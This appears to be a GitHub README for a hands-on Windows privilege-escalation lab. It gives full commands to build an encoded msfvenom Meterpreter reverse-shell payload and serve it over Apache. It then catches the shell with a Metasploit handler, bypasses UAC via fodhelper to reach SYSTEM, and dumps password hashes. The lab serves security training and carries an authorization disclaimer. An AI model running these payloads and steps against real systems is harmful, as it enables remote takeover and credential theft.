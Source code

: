 # Privilege Escalation

This repository demonstrates a hands-on lab for privilege escalation on a vulnerable Windows machine using a Kali Linux attacker machine. The lab showcases how to exploit vulnerabilities to gain higher privileges and includes detailed steps for exploitation and escalation.

---

## Objectives

* Demonstrate how to escalate privileges on a victim machine by exploiting its vulnerabilities.
* Perform exploitation using Metasploit Framework.
* Understand how to bypass User Account Control (UAC) and gain elevated privileges.

---

## Prerequisites

* **Kali Linux** virtual machine with networking configured.
* **Windows 10** virtual machine with networking configured.
* Both VMs must be on the same network and have connectivity.

---

## Workflow

### 1. Setup Apache to Share Exploit File

Run the script to configure Apache and set up the shared folder for delivering the malicious payload.

```bash
./setup_apache.sh
```

This will:

* Install Apache if not already installed.
* Configure the Apache server to host a directory for sharing files.
* Copy the malicious payload `Exploit.exe` to the shared directory.

### 2. Create the Exploit File

Generate the malicious payload using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=<KALI_IP> -f exe > Desktop/Exploit.exe
```

Replace `<KALI_IP>` with your Kali machine's IP address.

### 3. Start Apache Server

Ensure Apache is running:

```bash
sudo service apache2 start
```

The malicious payload will be accessible via `http://<KALI_IP>/share/Exploit.exe`.

### 4. Start Metasploit Handler

Prepare Kali to catch the connection when the victim runs the payload:

1. Open a terminal and start Metasploit:

   ```bash
   msfconsole
   ```

2. Run the following commands in Metasploit:

   ```
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <KALI_IP>
   exploit -j -z
   ```

This starts the listener and prepares to catch incoming connections from the victim machine.

### 5. Perform Exploitation

On the Windows 10 victim machine:

1. Open a browser and navigate to: `http://<KALI_IP>/share/`.
2. Download and run `Exploit.exe`. If prompted with a security warning, click **Run**.

### 6. Meterpreter Session

After the victim executes the payload, a Meterpreter session will open on Kali. Use the following commands:

* List active sessions:

  ```
  sessions
  ```

* Interact with the session:

  ```
  sessions -i <ID>
  ```

Replace `<ID>` with the session ID displayed in the `sessions` command output.

### 7. Privilege Escalation

To escalate privileges:

1. Attempt privilege escalation:

   ```
   getsystem
   ```

2. If this fails, bypass User Account Control (UAC):

   ```
   use exploit/windows/local/bypassuac_fodhelper
   set SESSION <ID>
   run
   ```

3. Once UAC is bypassed, re-run `getsystem`:

   ```
   getsystem
   ```

4. Verify elevated privileges:

   ```
   getuid
   ```

   You should see: `NT AUTHORITY\SYSTEM`.

---
### 8. Dump Password Hashes
 ```bash
run post/windows/gather/smart_hashdump
```
## Repository Structure

```plaintext
.
├── setup_apache.sh      # Script to set up Apache and share malicious payload.
├── metasploit_commands.sh  # Script containing Metasploit commands.
├── README.md            # Detailed lab documentation.
```

---

## Notes

* Ensure both VMs are on the same network and can communicate.
* For educational purposes only. Do not use these techniques on unauthorized systems.

---

